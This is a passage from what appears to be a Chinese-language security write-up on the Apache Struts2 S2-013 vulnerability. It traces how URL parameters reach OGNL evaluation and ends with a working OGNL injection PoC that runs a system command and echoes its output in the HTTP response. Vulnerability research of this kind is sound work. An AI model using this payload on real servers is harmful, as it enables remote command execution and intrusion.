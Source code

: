 在关键的地方，即执行OGNL表达式计算的类和方法，比如`OgnlValueStack#findValue()`下断点，一路跟下去，发现在处理url参数的过程中，`DefaultUrlHelper#buildParameterSubstring()`会调用`TextParseUtil#translateVariables()`，如下图：

<img src="pic/struts2_s2-013_3.png">

<img src="pic/struts2_s2-013_4.png">

后面的漏洞触发流程就跟`S2-012`一样了。所以这个漏洞其实没什么值得说道的地方，因为跟之前出现的漏洞类似。

### 可回显PoC

```
/xxx.action?fakeParam=
%{#_memberAccess.allowStaticMethodAccess=true,
#context['xwork.MethodAccessor.denyMethodExecution']=false,
#is=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)),
#res=new char[20000],
#br.read(#res),
#writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#writer.println(new java.lang.String(#res)),
#writer.flush(),
#writer.close()}
```
